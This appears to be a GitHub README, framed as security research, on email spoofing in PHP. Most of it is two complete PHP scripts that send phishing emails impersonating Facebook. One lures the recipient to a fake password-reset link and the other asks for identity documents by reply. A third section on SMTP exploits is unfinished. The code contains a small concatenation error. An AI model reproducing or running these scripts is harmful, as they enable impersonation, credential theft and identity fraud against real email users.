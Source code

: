 # Email-Spoofing-PHP
Breakdown on security research into PHP Email Spoofing.
    

   
## Example 1   
```
<?php
$from = "reallookingemail@fbsecurity.com";
$to = "targetemail@gmail.com";
$display = "FB Security";
$subject = "Password Data Breach";
$message = '<h5>Data Breached</h5><p>Unfortunately we\'ve recently suffered a password database breach on our system, please change your password by following this link. <br><br>Please open this link in your browser or click on the link to automatically be taken to the address.<br><a href="fbsecurity.com/">Password Reset</a></p>';
$reply = "security@facebook.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}
```

> Example PHP Phishing - Using Email Sender Name and ReplyTo.
   
Results in an email from "FB Security" prompting to update password at a fake link.   
   
  
## Example 2   
> In this example we are changing the $from address to spoof a real email address - this is the old method that doesn't work because most provider's will block the fake email address by checking the domains mail (mx) records.
```   
<?php
$from = "support@facebook.com";
$to = "targetemail@gmail.com";

$display = "Facebook";
$subject = "Security Breach";
$message = '<h4>Facebook</h4><p>Unfortunately we\'ve recently suffered a secure database breach on our system, please confirm your identity by replying to this message and attaching 100 points of ID.<br>Security is very important to us at Facebook and we must ask people to now provide identification details to further ensure your safety on our network, we are sorry for this inconvenience. </p>';
$reply = "support@fbsecurity.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}   
```
> Here the attacker has spoofed the From Email address and the Name of the email sender, asking for details. 
  
 
## Example 3 
> Here we look at SMTP Exploits, ( Simple Message Transfer Protocol ). 
> This section is still being written.
 
   





.
